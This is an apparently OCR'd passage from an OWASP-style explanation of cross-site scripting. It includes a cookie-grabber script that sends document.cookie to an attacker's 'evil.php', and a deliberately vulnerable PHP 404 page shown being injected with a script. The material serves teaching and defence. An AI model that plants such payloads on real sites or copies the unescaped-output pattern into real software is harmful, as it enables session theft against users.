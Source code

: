 ### Attack Examples

**Example 1: Cookie Grabber**

If the application doesn't validate the input data, the attacker can
easily steal a cookie from an authenticated user. All the attacker has
to do is to place the following code in any posted input(ie: message
boards, private messages, user profiles):

    <SCRIPT type="text/javascript">
    var adr = '../evil.php?cakemonster=' + escape(document.cookie);
    </SCRIPT>

The above code will pass an escaped content of the cookie (according to
RFC content must be escaped before sending it via HTTP protocol with GET
method) to the evil.php script in "cakemonster" variable. The attacker
then checks the results of his evil.php script (a cookie grabber script
will usually write the cookie to a file) and use it.

### Error Page Example

Let's assume that we have an error page, which is handling requests for
a non existing pages, a classic 404 error page. We may use the code
below as an example to inform user about what specific page is missing:

    <html>
    <body>

    <? php
    print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
    ?>

    </body>
    </html>

Let's see how it works:

    http://testsite.test/file_which_not_exist

In response we get:

    Not found: /file_which_not_exist

Now we will try to force the error page to include our code:

    http://testsite.test/<script>alert("TEST");</script>

The result is:

    Not found: / (but with JavaScript code <script>alert("TEST");</script>)

We have successfully injected the code, our XSS\! What does it mean? For
example, that we may use this flaw to try to steal a user's session
cookie.

## Related [Attacks](https://owasp.org/www-community/attacks/)
